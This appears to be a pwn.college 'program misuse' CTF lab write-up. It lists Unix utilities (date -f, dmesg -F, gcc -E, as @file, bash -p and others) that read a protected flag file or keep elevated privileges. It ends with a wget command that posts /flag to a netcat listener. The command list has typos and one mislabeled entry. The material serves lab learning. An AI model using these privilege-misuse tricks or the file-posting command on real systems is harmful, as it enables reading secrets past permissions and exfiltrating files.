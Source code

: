 # pwn-college-writups-fundamentals-program-misuse
more
less
tail
head
cat
emuc
vim
nano
rev — prints reverse text of the file
od — prints the octal format of the text
hd — gives a hex dump of the file
xxd — produces three-column output by default: file offsets, the data in hex, and the data as text
base32 — prints base32 encoded text
base64 — prints base64 encoded text
split — splits larger files into smaller files which would have higher permissions
gzip — zips the file — can be read with zcat command
bzip2 — bzips the given file — can be read by bzgrep command
zip — zips the file — read by zgrep
tar — zips the file in a different format — read by tar xvf file.tar.gz -O | grep "text”
ar — a Unix utility that maintains groups of files as a single archive file — can be read by — ar pv super.a
env — controls the environment variable — can be read by env -i [command] [if needed commandfile]
timeout — utility that runs a specified command and terminates it if it is still running after a given period of time. — can read files when the command is given — timeout 5 [command] [file]
stdbuf — Run a command with modified I/O stream buffering — can read files by stdbuf -oL [command]
search — change reported architecture in new program environment or set personality flags — files can be read by setarch --addr-no-randomize [command]
awk — used to print a file — can be used to read the file by awk ‘’ file
sed — replaces the text in a file — can be read by sed ‘’ file
bash — shell scripting language — bash privilege can be maintained by — bash -p
date — gives the current date and time — can be used to read files by — date -f [filename]
dmesg -print or control the kernel ring buffer — can be used to read files — by dmesg -F [filename]
wc — print newline, word, and byte counts for each file — can be used to read files by — wc -files0-from=[filename]
gcc — GNU project C and C++ compiler — Can be used to read a file by — gcc -x c -E "filename"
AS — the portable GNU assembler — can be used to read files by — as @[filename]
Level 50
wget --header="Content-type: multipart/form-data boundary=FILEUPLOAD" --post-file /flag http://127.0.0.1:4554/
and set up a listeniner with nat cat
nc -vlnp 4554
and get the flag
